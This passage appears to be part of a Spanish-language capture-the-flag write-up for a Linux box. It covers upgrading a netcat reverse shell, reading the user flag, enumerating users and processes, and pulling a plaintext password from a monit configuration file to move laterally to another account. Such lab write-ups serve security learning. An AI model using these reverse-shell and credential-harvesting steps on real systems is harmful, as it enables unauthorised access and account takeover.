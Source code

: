 ```bash
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```
Vamos al directorio personal y podemos ver la flag del usuario
```bash
dash@usage:~$ cat user.txt 
*******************dabb05
```

### Escalada de Privilegio
Veo otro usuario, por lo tanto intente encontrar como hacer un movimiento lateral al usuario xander, porque como vemos con el usuario actual no tenemos nada para poder escalar a root
```bash
dash@usage:~$ cat /etc/passwd | grep "bash"
root:x:0:0:root:/root:/bin/bash
dash:x:1000:1000:dash:/home/dash:/bin/bash
xander:x:1001:1001::/home/xander:/bin/bash
```
vi que corria un  proceso llamado monit
```bash
dash@usage:~$ ps -faux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
dash        5035  0.0  0.0   2892   952 ?        S    18:22   0:00 sh -c uname -a; w; id; /bin/sh -i
dash        5039  0.0  0.0   2892   956 ?        S    18:22   0:00  \_ /bin/sh -i
dash        5156  0.0  0.0   2808  1072 ?        S    18:30   0:00      \_ script /dev/null -c bash
dash        5157  0.0  0.0   2892  1064 pts/0    Ss   18:30   0:00          \_ sh -c bash
dash        5158  0.0  0.1   5684  5032 pts/0    S    18:30   0:00              \_ bash
dash        6118  0.0  0.0   7476  3332 pts/0    R+   19:08   0:00                  \_ ps -faux
dash        1272  0.2  0.1  66796  7304 ?        S    14:38   0:46 nginx: worker process
dash        1271  0.0  0.1  66788  7304 ?        S    14:38   0:03 nginx: worker process
dash        6109  0.0  0.0  84684  3444 ?        Sl   19:07   0:00 /usr/bin/monit
```
y en el directorio personal había un archivo .monitrc por lo que procedí a mirar el contenido de este archivo para ver si tenia algún tipo de relacion con el proceso monit  
```bash
dash@usage:~$ ls -la
total 52
drwxr-x--- 6 dash dash 4096 Aug  7 18:57 .
drwxr-xr-x 4 root root 4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root    9 Apr  2 20:22 .bash_history -> /dev/null
-rw-r--r-- 1 dash dash 3771 Jan  6  2022 .bashrc
drwx------ 3 dash dash 4096 Aug  7  2023 .cache
drwxrwxr-x 4 dash dash 4096 Aug 20  2023 .config
drwxrwxr-x 3 dash dash 4096 Aug  7  2023 .local
-rw-r--r-- 1 dash dash   32 Oct 26  2023 .monit.id
-rw-r--r-- 1 dash dash    5 Aug  7 18:57 .monit.pid
-rw------- 1 dash dash 1192 Aug  7 18:57 .monit.state
-rwx------ 1 dash dash  707 Oct 26  2023 .monitrc
-rw-r--r-- 1 dash dash  807 Jan  6  2022 .profile
drwx------ 2 dash dash 4096 Aug 24  2023 .ssh
-rw-r----- 1 root dash   33 Aug  7 14:39 user.txt
```
En este archivo contenía una contraseña por lo que lo probé en el usuario xander
```bash
dash@usage:~$ cat .monitrc  
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd
```